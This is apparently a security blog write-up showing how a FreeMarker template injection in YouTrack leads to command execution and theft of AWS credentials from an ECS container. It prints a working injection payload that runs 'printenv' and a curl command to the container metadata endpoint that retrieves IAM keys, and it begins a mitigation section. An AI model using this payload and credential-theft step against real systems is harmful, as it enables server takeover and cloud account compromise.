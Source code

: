 ## <a name="awsattack"></a>The Attack 

As an attacker, assume I am aware of the YouTrack vulnerability. One of the first steps in any server/container takeover is to understand the environment. Thus, I first would like to understand what type of backend I am dealing with. One way of doing this is by printing the environment variables.

I can do this by slightly modifying the template injection shown above: 

```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("printenv")}
```

I have only changed the executed command to `printenv`, which allow us to print the environment variables. Note that this is also possible, as the container YouTrack container runs by root as default, so I have access to all environment variables. This is the result: 

<p align="center"> <img src="/assets/images/Hack1.png"> </p>

The first thing to notice is all the AWS information (e.g., region, default region, etc). This tells us that I am in an AWS cloud, and that this is an ECS container. From this, it is clear that I am after the `$AWS_CONTAINER_RELATIVE_URI` environment variable. Having this, I can then do a simple cURL request: 

```curl http://169.254.170.2/v2/credentials/821940c1-69e9-4a50-a118-04b8fafe761d```

to obtain the credentials. Keep in mind that the IP of the metadata endpoint is always `169.254.170.2` and that it is also shown in the environment variable `ECS_CONTAINER_METADATA_URI`. Do note that some containers may not have cURL or wget installed, so additional steps may be required. 


<p align="center"> <img src="/assets/images/Hack2.png"> </p>


As you can see in the image above, I have obtained the `AccessKeyId`, the `SecretAccessKey` and also the `Token` (although it is not shown in the screenshot). These elements are enough to use the AWS CLI. Notice that the key id is prefixed by ASIA, which means it is a temporary access key (this is the reason why the token is required).

## <a name="awsmitigation"></a>Mitigation 
To mitigate this attack, it is important to consider the fact that I want to establish several defense layers (the 'defense in depth' approach).

```